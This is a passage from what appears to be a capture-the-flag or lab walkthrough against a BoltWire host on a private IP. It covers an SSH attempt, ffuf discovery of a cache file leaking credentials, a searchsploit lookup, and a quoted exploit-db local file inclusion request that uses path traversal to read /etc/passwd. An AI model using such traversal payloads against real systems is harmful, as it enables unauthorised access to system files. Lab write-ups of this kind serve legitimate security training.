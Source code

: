 Trying to get ssh login with the username jp:

```
┌──(root㉿kali)-[/mnt/dev]
└─# ssh -i id_rsa jp@10.0.2.9
The authenticity of host '10.0.2.9 (10.0.2.9)' can't be established.
ED25519 key fingerprint is SHA256:NHMY4yX3pvvY0+B19v9tKZ+FdH9JOewJJKnKy2B0tW8.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? y
Please type 'yes', 'no' or the fingerprint: yes
Warning: Permanently added '10.0.2.9' (ED25519) to the list of known hosts.
jp@10.0.2.9's password:

```

Asking for password. Also not sure if jp is a user.

**Moving on links found by <strong>ffuf</strong> search:**

- While looking at links, we found interesting folders in ip/app, hence skipping explaination of others.
- Looking at the `/app/cache` found config-cache.json and we found username: `bolt` and password `I_love_java`
- At `10.0.2.9:8080/app`, we found a boltwire page.

**Searching for any vulnerabilites of Boltwire:**
<br>
**Results:**

```
──(root㉿kali)-[/home/kali]
└─# searchsploit boltwire
--------------------------------------------------------------------------------------------------------------------
 Exploit Title
--------------------------------------------------------------------------------------------------------------------
BoltWire 3.4.16 - 'index.php' Multiple Cross-Site Scripting Vulnerabilities
BoltWire 6.03 - Local File Inclusion
--------------------------------------------------------------------------------------------------------------------
Shellcodes: No Results

```

- Going for local file inclusion.
- In **[exploit_db](https://www.exploit-db.com/exploits/48411)**, we found the instructions for the exploit:

```
Steps to Reproduce:

1) Using HTTP GET request browse to the following page, whilst being authenticated user.
http://192.168.51.169/boltwire/index.php?p=action.search&action=../../../../../../../etc/passwd
```
